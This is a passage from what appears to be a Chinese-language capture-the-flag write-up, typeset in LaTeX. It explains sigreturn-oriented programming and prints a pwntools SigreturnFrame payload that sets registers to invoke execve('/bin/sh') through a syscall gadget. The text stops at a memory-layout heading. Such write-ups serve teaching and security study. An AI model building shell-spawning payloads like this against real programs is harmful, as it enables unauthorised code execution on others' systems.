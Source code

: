 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
就能用極少的 gadget 做「任意 syscall」（例如
\texttt{execve("/\allowbreak{}bin/\allowbreak{}sh",\allowbreak{}0,\allowbreak{}0)}）。 常用工具是 pwntools 的
\texttt{SigreturnFrame()}：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{frame }\OperatorTok{=}\NormalTok{ SigreturnFrame()}
\NormalTok{frame.rax }\OperatorTok{=} \DecValTok{59}          \CommentTok{\# execve}
\NormalTok{frame.rdi }\OperatorTok{=}\NormalTok{ binsh}
\NormalTok{frame.rsi }\OperatorTok{=} \DecValTok{0}
\NormalTok{frame.rdx }\OperatorTok{=} \DecValTok{0}
\NormalTok{frame.rip }\OperatorTok{=}\NormalTok{ syscall\_ret}
\NormalTok{payload }\OperatorTok{=}\NormalTok{ flat([syscall\_gadget, frame])}
\end{Highlighting}
\end{Shaded}

本題不需要 SROP（有現成的 \texttt{system@plt}），但當程式\textbf{沒有}
\texttt{system}／\texttt{pop\ \allowbreak{}rdi} 等 好用 gadget 時，SROP
往往是唯一出路。

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{6. ASCII
圖：記憶體佈局}\label{ascii-ux5716ux8a18ux61b6ux9ad4ux4f48ux5c40}

\paragraph{\texorpdfstring{6.1 \texttt{0x1900}（指令主迴圈）的 stack
frame}{6.1 0x1900（指令主迴圈）的 stack frame}}\label{x1900ux6307ux4ee4ux4e3bux8ff4ux5708ux7684-stack-frame}
\end{document}
